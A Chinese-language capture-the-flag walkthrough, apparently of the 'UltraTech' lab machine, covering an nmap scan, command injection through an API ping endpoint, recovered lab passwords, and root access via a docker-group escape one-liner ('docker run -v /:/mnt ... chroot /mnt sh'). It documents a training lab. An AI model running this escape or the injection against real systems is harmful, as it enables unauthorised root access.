

## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p21,22,8081,31331 10.10.215.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-30 07:53 EDT
Nmap scan report for 10.10.215.7
Host is up (0.36s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Linux 3.10 (93%), Linux 3.12 (93%), Linux 3.18 (93%), Linux 3.19 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.47 seconds
```

## web渗透

8081端口提供api服务
31331是web
那么访问31331
查看robots.txt
得到三个路径
有用的就是`/partners.html`
这是登录界面
输入登录信息会调用8081的/auth接口

此时到这里有个思路就是sql注入，but尝试了一下好像并没有bypass的思路
于是目录扫描
在/js目录发现api服务的构造函数

有个ping执行的api服务


这里通过||管道符及``可以执行命令
将数据库文件下载下来


得到一个密码
那就可以登陆了
admin/mrsheafy
r00t/n100906


## 提权
ssh连上，docker提权。。。。
```bash
r00t@ultratech-prod:/tmp$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
# ls /root
private.txt
# cat /root/private.txt
# Life and acomplishments of Alvaro Squalo - Tome I

Memoirs of the most successful digital nomdad finblocktech entrepreneur
in the world.

By himself.

## Chapter 1 - How I became successful

```